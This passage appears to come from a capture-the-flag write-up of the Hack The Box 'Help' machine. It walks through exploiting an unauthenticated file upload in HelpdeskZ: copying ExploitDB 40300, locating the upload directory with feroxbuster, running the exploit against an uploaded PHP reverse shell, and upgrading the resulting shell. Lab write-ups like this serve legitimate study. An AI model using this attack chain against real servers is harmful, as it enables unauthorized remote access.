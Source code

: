 1. The extension is preserved — so if I upload a `.php` file, it stays a `.php` file.
2. I can predict or brute-force the hash if I know the filename and can guess the time, meaning I can find the uploaded file’s name and access it on the server.

That's how I get shell access without auth.

Also how to run it; Call this script with the base url of your HelpdeskZ-Installation and the name of the file you uploaded

exploit.py httplocalhosthelpdeskz phpshell.php

I created a reverse-shell.php file within my **/tmp** directory. 

`searchsploit -m php/webapps/40300.py`
This command copies the exploit script for **ExploitDB ID 40300** (a PHP web app exploit) to my current directory using **SearchSploit**. The `-m` flag means "mirror" (copy) the file.

### feroxbuster 
I figured wwhen I first ran the exploit that I did not have the correct directory the file would be uploaded to.
Since earlier when I tried to upload a **test** file it did not show me where it go uploaded. I could go and look at the open source code. But I decided to use feroxbuster

`eroxbuster -u http://10.10.10.245/support/`:
301      GET        9l       28w      322c http://help.htb/support/uploads/tickets => http://help.htb/support/uploads/tickets/

# Exploit 
After a couple of tries of getting nothing running the exploit; `python2 40300.py http://help.htb/support/uploads/tickets/ rvshell.php`
TL;DR:

You can tell it's written for Python 2 because:

    It uses print as a statement (without parentheses).

    If you try to run this in Python 3, it will throw a SyntaxError immediately on the first print line.


I realized a missed an important step that is on the exploit code:
Steps to reproduce:

http://localhost/helpdeskz/?v=submit_ticket&action=displayForm

Enter anything in the mandatory fields, attach your phpshell.php, solve the captcha and submit your ticket.

Call this script with the base url of your HelpdeskZ-Installation and the name of the file you uploaded:

exploit.py http://localhost/helpdeskz/ phpshell.php

Once doing these steps with **netcat** listener with the port number I had on my **reverse-shell.php** file. I was able to get a shell. 
```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
help@help:/$ ls
ls
bin   etc         initrd.img.old  lost+found  opt   run   sys  var
boot  home        lib             media       proc  sbin  tmp  vmlinuz
dev   initrd.img  lib64           mnt         root  srv   usr  vmlinuz.old
help@help:/$ cd home
cd home
help@help:/home$ ls
ls
help
help@help:/home$ cd help
cd help
help@help:/home/help$ ls
```
